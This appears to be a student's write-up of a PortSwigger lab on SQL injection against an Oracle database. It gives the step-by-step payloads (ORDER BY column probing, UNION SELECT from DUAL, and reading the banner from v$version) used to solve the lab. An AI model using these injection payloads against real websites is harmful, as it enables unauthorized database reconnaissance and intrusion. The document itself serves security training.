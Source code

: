 ### [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

---

#### 🧪 Steps to Solve:

1. Clicked on **Gifts** to trigger a request with category filter.
2. Intercepted the request with **Burp Suite**.
3. Tested the number of columns using `ORDER BY`:

   * `' ORDER BY 1--` ✅
   * `' ORDER BY 2--` ✅
   * `' ORDER BY 3--` ❌ → means **2 columns**
4. Tested data types with:

   ```
   ' UNION SELECT NULL, 'a' FROM DUAL--
   ```

   ✅ Page loaded successfully, means 2nd column accepts string.
5. Fetched database version:

   ```
   ' UNION SELECT banner, NULL FROM v$version--
   ```

   ✅ Output showed Oracle version → Lab Solved.

---

#### Key Notes:

* `DUAL` is a special table in Oracle used when no real table is needed.
* `v$version` is an Oracle system view showing DB version info.
* `ORDER BY N--` helps find number of columns.
* Use `NULL` for unknown data types during testing.
